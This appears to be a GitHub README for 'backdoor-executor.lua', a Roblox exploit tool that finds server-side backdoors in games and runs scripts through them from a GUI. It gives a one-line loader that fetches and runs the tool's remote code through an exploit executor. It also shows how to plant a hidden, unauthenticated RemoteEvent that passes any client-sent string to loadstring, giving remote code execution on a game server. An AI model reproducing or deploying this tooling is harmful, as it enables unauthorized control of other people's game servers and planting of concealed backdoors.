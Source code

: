 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts them within a gui.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A non skiddy brain that needs help for dumb reason
- Decent executor that supports filesystem functions (for config)
### Authors
**jLn0n**
- Discord: jLn0n#1464(474555624219344906)
- Github: [@jLn0n](https://github.com/jLn0n)
- Guilded: [jLn0n](https://www.guilded.gg/profile/1Ar9EYwm)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config version(configVer in [bexe-config.lua](https://github.com/jLn0n/created-scripts-public/blob/main/backdoor-executor/bexe-config.lua)) is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for copying this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(1e10,1e10))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```

